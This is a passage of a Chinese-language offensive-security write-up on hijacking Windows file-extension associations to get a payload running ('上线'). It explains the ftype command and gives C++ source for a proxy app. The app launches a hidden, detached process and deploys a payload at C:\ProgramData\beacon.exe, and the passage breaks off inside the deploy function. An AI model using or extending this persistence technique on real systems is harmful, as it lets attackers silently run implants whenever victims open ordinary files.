 显示或修改文件扩展名关联中使用的文件类型

```cmd
ftype [<filetype>[=[<opencommandstring>]]]
```

显示 txtfile 文件类型的当前打开命令字符串

```cmd
ftype txtfile
```

删除名为 example 的文件类型的打开命令字符串

```cmd
ftype example=
```
#### 优雅的方法

仅使用“ ProxyApp ”应用程序和处理扩展程序默认程序的注册表项，即可仅对一个扩展程序手动执行劫持上线过程

> 编译环境：Visual Studio 2022
>
> 字符集：Unicode
>
> 权限：需要管理员权限修改注册表
#### main.cpp

```c
#include <stdio.h>
#include <Windows.h>
#include <psapi.h>

#include <string>

HANDLE create_new_process(IN const char* path, IN const char* cmd)
{
    STARTUPINFOA si;
    memset(&si, 0, sizeof(STARTUPINFO));
    si.cb = sizeof(STARTUPINFO);
    si.wShowWindow = 0;

    PROCESS_INFORMATION pi;
    memset(&pi, 0, sizeof(PROCESS_INFORMATION));
    
    if (!CreateProcessA(
        path,
        (LPSTR) cmd,
        NULL, //lpProcessAttributes
        NULL, //lpThreadAttributes
        FALSE, //bInheritHandles
        DETACHED_PROCESS  | CREATE_NO_WINDOW,
        NULL, //lpEnvironment 
        NULL, //lpCurrentDirectory
        &si, //lpStartupInfo
        &pi //lpProcessInformation
    ))
    {
        return NULL;
    }
    return pi.hProcess;
}

void deploy_payload()
{
    char full_path[MAX_PATH] = { 0 };
    char calc_path[] = "C:\\ProgramData\\beacon.exe";
    //ExpandEnvironmentStringsW(LPCWSTR(calc_path), LPWSTR(full_path), MAX_PATH);
```